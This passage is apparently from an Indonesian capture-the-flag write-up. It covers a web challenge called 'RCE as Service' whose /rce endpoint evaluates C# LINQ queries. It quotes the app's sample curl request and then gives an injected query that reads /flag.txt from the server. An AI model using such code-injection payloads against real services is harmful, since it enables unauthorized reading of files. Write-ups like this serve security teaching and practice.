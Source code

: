 ![](Pasted%20image%2020221127092240.png)

kita mendapatkan flagnya

## RCE as Service (Stage 1)

Diberikan web app, terdapat RCE yang disengaja pada endpoint `/rce`

![](Pasted%20image%2020221127092353.png)

pada file api_usage.md, kita diberikan contoh API:

```sh
curl --request POST \
  --url http://localhost:8002/rce \
  --header 'Content-Type: application/json' \
  --data '{
    "Data": ["Charmander", "Bulbasaur", "Bulbasaur"],
    "Query": "(data) => data.Select((d) => d == \"Bulbasaur\" ? \"Charmander\" : d)"
}'
```

Karena bisa kita bahwa query merupakan sintaks LINQ untuk C#, kita bisa berikan query seperti:

```c#
(data) => data.Select((d) => System.IO.File.ReadAllText(\"/flag.txt\")
```
